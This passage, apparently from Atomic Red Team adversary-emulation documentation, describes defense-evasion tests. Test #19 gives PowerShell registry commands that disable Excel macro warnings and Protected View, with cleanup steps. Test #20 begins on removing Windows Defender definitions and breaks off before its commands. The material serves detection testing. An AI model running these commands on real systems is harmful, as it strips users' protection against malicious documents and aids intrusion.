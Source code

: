 <br/>
<br/>

## Atomic Test #19 - Disable Microsoft Office Security Features

Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will not
show any warning before editing the document.

https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows

**auto_generated_guid:** 6f5fb61b-4e56-4a3d-a8c3-82e13686c6d7

#### Attack Commands: Run with `powershell`!

```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -ErrorAction Ignore | Out-Null
Remove-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #20 - Remove Windows Defender Definition Files

Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.
On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the
command will say completed.

https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/
